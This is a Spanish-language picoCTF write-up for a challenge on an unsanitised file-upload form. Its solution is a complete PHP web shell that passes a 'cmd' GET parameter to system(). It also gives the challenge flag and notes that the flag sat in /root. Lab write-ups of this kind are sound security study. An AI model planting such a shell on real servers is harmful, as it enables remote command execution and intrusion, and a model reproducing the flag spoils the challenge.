 ## Descripción:
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.You can access the web application [here](http://standard-pizzas.picoctf.net:54024/)!

Hints:
- File upload was not sanitized
- Whenever you get a shell on a remote machine, check `sudo -l`

## Solución:
```
Cree un .php con lo siguiente:

<html>

<body>

<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">

<input type="TEXT" name="cmd" autofocus id="cmd" size="80">

<input type="SUBMIT" value="Execute">

</form>

<pre>

<?php

    if(isset($_GET['cmd']))

    {

        system($_GET['cmd'] . ' 2>&1');

    }

?>

</pre>

</body>

</html>

para ejecutar los comandos desde el navegador y no con parametros como en el reto Trickster


picoCTF{wh47_c4n_u_d0_wPHP_d698d800}
```

## Notas:
La bandera estaba en /root/flag.txt

